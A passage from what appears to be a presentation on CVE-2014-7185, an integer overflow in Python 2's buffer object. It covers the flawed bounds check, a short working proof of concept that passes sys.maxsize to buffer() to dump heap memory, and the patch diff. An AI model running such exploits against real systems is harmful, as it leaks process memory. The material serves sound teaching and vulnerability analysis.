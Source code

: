 #### Is there an Integer Overflow ?

##### .twitch-emote.small[DOOMGuy] brainstorming ..

---

### CVE-2014-7185 [3/5 exploitation | 2/3]

#### Let's take a look at the bounds check

```c
if (offset + *size > count)
  // ...
```

#### What if it goes in Integer Overflow ?

It *becomes negative* → *check is skipped*

.twitch-emote.large[BrokeBack]

---

### CVE-2014-7185 [3/5 exploitation | 3/3]

#### Exploiting this is ezpz:

```python
import sys
a = bytearray('foobar')
b = buffer(a, sys.maxsize, sys.maxsize)
print b[:8192]
```

In above exploit code, the maximum values in offset and size parameters
cause the *Integer Overflow* and *allows to dump the heap*

#### Can become an arbitrary code execution?

*Yes*, instead of dumping, we just need to *inject custom code*..

But this is a complex task..  
Not covered here..

---

### CVE-2014-7185 [4/5 bug fix]

```diff
...

diff --git a/Objects/bufferobject.c b/Objects/bufferobject.c
--- a/Objects/bufferobject.c
+++ b/Objects/bufferobject.c
@@ -88,7 +88,7 @@ get_buf(PyBufferObject *self, void **ptr
             *size = count;
         else
             *size = self->b_size;
-        if (offset + *size > count)
+        if (*size > count - offset)
             *size = count - offset;
     }
     return 1;

...
```

---